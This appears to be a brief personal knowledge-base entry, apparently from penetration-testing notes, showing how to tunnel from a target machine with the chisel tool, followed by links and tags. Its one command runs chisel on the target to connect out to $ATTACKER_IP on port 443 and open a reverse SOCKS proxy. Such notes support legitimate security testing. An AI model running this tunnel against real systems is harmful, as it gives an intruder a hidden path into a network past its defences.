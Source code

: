 # tunneling through chisel Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# References
- [20221003150110](/zet/20221003150110/) tunneling through chisel
- ~/kb/networking/port-forwarding.md

Tags:
    #assorted

